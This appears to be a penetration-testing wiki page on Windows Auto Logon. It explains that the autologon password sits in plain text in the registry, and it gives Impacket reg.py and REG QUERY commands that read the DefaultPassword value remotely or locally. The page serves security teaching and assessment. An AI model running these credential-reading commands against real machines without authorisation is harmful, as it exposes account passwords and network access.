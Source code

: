 # Auto Logon

## Theory

By using this feature, other users can start your computer and use the account that you establish to automatically log on.
The autologon feature is provided as a convenience. However, this feature may be a security risk. If you set a computer for autologon, anyone who can physically obtain access to the computer can gain access to all the computer's contents, including any networks it is connected to. Additionally, when autologon is turned on, the password is stored in the registry in plain text. The specific registry key that stores this value can be remotely read by the Authenticated Users group. 

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can be used to query registry remotely from a UNIX-like machine.
```bash
# Query all Auto logon subkeys and values
reg.py domain.local/username:password123@IP query -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" -s 

# Query Auto logon password
reg.py domain.local/username:password123@IP query -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" -v DefaultPassword
```
{% endtab %}

{% tab title="Windows" %}
We can use the REG.EXE Windows utility
```bash
# Query Auto logon password
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword

#Or force reg.exe to read the 64-bit registry location
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword /reg:64
```
{% endtab %}
{% endtabs %}